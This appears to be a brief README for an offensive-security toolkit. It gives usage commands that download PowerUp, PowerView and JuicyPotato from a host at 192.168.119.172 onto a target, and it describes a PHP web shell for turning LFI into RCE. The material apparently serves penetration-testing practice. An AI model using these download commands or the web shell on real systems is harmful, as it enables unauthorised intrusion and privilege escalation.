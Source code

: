 # allmix

## LISTS

# MultiFileDownload.ps1
 if on cmd type powershell
 .\MultiFileDownload.ps1 -HostUrl "http://192.168.119.172:8080" -FileNames "PowerUp.ps1", "PowerView.ps1", "JuicyPotato.exe" -Destination "C:\Users\Public\"

# powerup.ps1 
Updated and working well without any issue. 

# MultiFileDownload.sh
Linux multi file downloader give permission Chmod +x before use. 
$ ./MultiFileDownload.sh
Enter host URL: http://192.168.119.172:8080
Enter file names (separated by space): PowerUp.ps1 PowerView.ps1 JuicyPotato.exe
Enter destination directory: ./Downloads

# Yscmd.php
Php remote and local code execute lfi to rce. 
yscmd.md explain how to use it. 
